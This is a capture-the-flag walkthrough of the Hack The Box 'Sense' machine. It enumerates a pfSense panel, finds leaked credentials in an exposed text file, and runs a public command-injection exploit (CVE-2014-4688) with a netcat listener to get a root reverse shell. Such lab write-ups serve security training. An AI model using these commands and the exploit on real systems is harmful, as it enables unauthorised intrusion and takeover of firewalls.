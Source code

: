 # Sense

**Links:** [1](https://www.hackthebox.com/machines/sense)  [2](https://app.hackthebox.com/machines/Sense)

**Machine ip:** 10.10.10.60

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.60 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.60`

+ 2 ports are open which are 80 and 443:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6749553f-08d1-460f-aad6-1fbb09ae51ea)

+ Port 80 redirects to port 443 so we really only have one port to enumerate.
+ Navigate to `https://10.10.10.60/`
+ pfsense login panel.
+ Try [pfsense](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) default username and password.
+ Try brute force trial and errors.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d249333a-0934-4e18-a2ff-d8eeb457d36c)

+ No works, and continue with directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60/ -k -n -x html,php,txt -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9a9704e1-f08a-4337-8340-8807b3a9efb4)

+ **system-users.txt** and changelog.txt are interesting, and check them out.
+ Navigate to `https://10.10.10.60/system-users.txt` and `https://10.10.10.60/changelog.txt`
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6601d0fd-d8aa-440c-b85e-eb1598afba6e)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd931495-72f9-4c8f-b47b-d3f125ba4868)

+ Login pfsense using credentials `rohit`:`pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/97eb08bc-2825-44a1-a5ba-897c186d2689)

+ See that version is **2.1.3**


## Privilege Escalation

+ View any vulnerabilities that pfsense is associated with : `searchsploit pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d1945b44-4ad0-402f-add2-f2206ebf4ad8)

+ For more perspective: https://sploitus.com

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0e8107b4-dc87-45ac-b91e-5f8fdbf561ee)

+ pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection: [CVE-2014-4688](https://www.exploit-db.com/exploits/43560)
+ Check the vulnerability what's doing.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ff6726fb-505d-4fd4-90a8-460f9d7a5549)

+ Transfer the exploit: `searchsploit -m 43560`
+ Start listener: `nc -lnvp 5555`
+ `python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 5555 --username rohit --password pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d6f35b34-e308-432b-8f48-3756e6010eba)

+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/35e0d755-020d-4e1f-92e6-e8405893a3c0)


# References & Alternatives
+ https://vvmlist.github.io/#sense
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/sense-writeup-w-o-metasploit
+ https://0xdf.gitlab.io/2021/03/11/htb-sense.html
+ https://benheater.com/hackthebox-sense/
+ https://xavilok.es/posts/Sense.php
+ https://ethicalhacs.com/sense-hackthebox-walkthrough/
+ https://v3ded.github.io/ctf/htb-sense
+ https://medium.com/@andr3w_hilton/htb-sense-walkthrough-6236970644c1

